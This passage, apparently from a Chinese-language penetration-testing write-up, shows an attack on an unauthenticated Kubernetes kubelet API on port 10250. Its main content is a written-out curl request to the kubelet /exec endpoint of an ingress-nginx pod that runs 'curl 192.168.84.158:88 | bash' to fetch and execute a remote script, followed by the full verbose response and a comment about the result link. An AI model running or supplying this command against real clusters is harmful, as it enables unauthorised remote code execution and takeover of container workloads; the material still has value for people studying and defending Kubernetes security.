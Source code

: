 [![](assets/1701826061-bd1eb53540e6ae2cea63740ab7f0ff94.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171332-c5128ea2-7316-1.png)  
之后会再执行端返回用于查看执行结果的链接地址：

```plain
[root@localhost ~]# curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://192.168.4.68:10250/exec/ingress-nginx/nginx-ingress-controller-6f5cbc5444-nkdg6/nginx-ingress-controller?command=/bin/bash&command=-c&command=curl+192.168.84.158:88+|+bash&input=1&output=1&tty=1"
* About to connect() to 192.168.4.68 port 10250 (#0)
*   Trying 192.168.4.68...
* Connected to 192.168.4.68 (192.168.4.68) port 10250 (#0)
* Initializing NSS with certpath: sql:/etc/pki/nssdb
* skipping SSL peer certificate verification
* SSL connection using TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256
* Server certificate:
*   subject: CN=192.168.4.68@1544518989
*   start date: 12 月 11 09:03:09 2018 GMT
*   expire date: 12 月 11 09:03:09 2019 GMT
*   common name: 192.168.4.68@1544518989
*   issuer: CN=192.168.4.68@1544518989
> POST /exec/ingress-nginx/nginx-ingress-controller-6f5cbc5444-nkdg6/nginx-ingress-controller?command=/bin/bash&command=-c&command=curl+192.168.84.158:88+|+bash&input=1&output=1&tty=1 HTTP/1.1
> User-Agent: curl/7.29.0
> Host: 192.168.4.68:10250
> Accept: */*
> X-Stream-Protocol-Version: v2.channel.k8s.io
> X-Stream-Protocol-Version: channel.k8s.io
> 
< HTTP/1.1 302 Found
< Location: /cri/exec/zEKYcaZt                          #查看执行结果
< Date: Wed, 07 Aug 2019 06:01:42 GMT
< Content-Length: 0
< Content-Type: text/plain; charset=utf-8
< 
* Connection #0 to host 192.168.4.68 left intact
[root@localhost ~]#
```
